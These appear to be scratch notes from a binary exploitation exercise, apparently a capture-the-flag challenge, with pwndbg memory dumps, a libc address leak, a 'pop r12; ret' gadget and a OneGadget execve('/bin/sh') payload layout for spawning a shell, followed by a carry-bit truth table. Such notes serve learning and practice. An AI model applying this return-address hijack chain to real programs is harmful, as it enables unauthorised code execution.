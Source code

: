 
#pwndbg> x state.mem
#0x7ffffffee002: 0x41414141
#pwndbg> x/x $rbp+8
#0x7fffffffe038: 0xf7de6083
#pwndbg> p/x state.mem[32795]
#$7 = 0x6083
#pwndbg> p/x state.mem[32796]
#$8 = 0xf7de

libc leaks libc_start_main+243

pop r12; ret; = 0x000000000002f709

[OneGadget] Gadgets near __libc_start_main(0x23f90):
0xe3afe execve("/bin/sh", r15, r12)
constraints:
  [r15] == NULL || r15 == NULL || r15 is a valid argv
  [r12] == NULL || r12 == NULL || r12 is a valid envp

payload is:

return addr: pop r12; ret;
             0x0000000000000000
            OneGadget_addr

Truth table for determining carry bit 

A B Sum | Carry?
0 0 0   | 0
0 0 1   | 0
0 1 0   | 1
0 1 1   | 0
1 0 0   | 1
1 0 1   | 0
1 1 0   | 1
1 1 1   | 1

(A&B) | (A^B)&~S 


